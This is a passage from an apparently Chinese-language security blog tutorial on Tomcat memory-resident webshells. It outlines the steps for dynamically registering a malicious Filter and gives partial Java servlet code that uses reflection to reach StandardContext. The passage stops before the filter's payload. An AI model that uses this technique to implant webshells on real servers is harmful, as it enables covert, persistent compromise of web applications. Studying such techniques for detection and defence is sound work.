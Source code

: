 
![](https://img2023.cnblogs.com/blog/1639143/202307/1639143-20230704224726990-907595763.png)

#### fiterConfig的内容都是从context中得到，因此只要我们能控制context的内容就行了

### 动态注册Filter

经过上面的分析，我们可以总结出动态注册Filter的流程：

1.  获取上下文对象StandardContext
2.  创建恶意Filter
3.  构造FilterDef封装filter
4.  创建filterMap，将路径与Filtername绑定，将其添加到filterMaps中
5.  使用FilterConfig封装filterDef，然后将其添加到filterConfigs中

    package com.example.webshellfilter;
    
    import org.apache.catalina.core.ApplicationContext;
    import org.apache.catalina.core.ApplicationContextFacade;
    import org.apache.catalina.core.ApplicationFilterConfig;
    import org.apache.catalina.core.StandardContext;
    import org.apache.tomcat.util.descriptor.web.FilterDef;
    import org.apache.tomcat.util.descriptor.web.FilterMap;
    import sun.misc.BASE64Decoder;
    
    import javax.servlet.Filter;
    import javax.servlet.ServletContext;
    import javax.servlet.annotation.WebServlet;
    import javax.servlet.http.HttpServlet;
    import javax.servlet.http.HttpServletRequest;
    import javax.servlet.http.HttpServletResponse;
    import java.io.IOException;
    import java.io.PrintWriter;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.Field;
    import java.lang.reflect.Method;
    import java.util.ArrayList;
    import java.util.HashMap;
    import java.util.List;
    
    @WebServlet(name = "filterServlet", value = "/filterServlet")
    public class FilterServletDemo extends HttpServlet {
        public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
            try {
                //1、通过request获取ServletContext类
                //通过request获取servletContext
                ServletContext servletContext = request.getServletContext();
                //其实这里是ApplicationContextFacade的类
                System.out.println(servletContext.getClass());
                Field applicationContextFacadefield = servletContext.getClass().getDeclaredField("context");
                applicationContextFacadefield.setAccessible(true);
                //获取servletContext对象中的context的值,因为是ApplicationContextFacade所以获取到的context是ApplicationContext
                ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadefield.get(servletContext);
                //通过applicationContext对象获取StandardContext
                Field standardContextfield = applicationContext.getClass().getDeclaredField("context");
                standardContextfield.setAccessible(true);
                StandardContext standardContext = (StandardContext) standardContextfield.get(applicationContext);
    
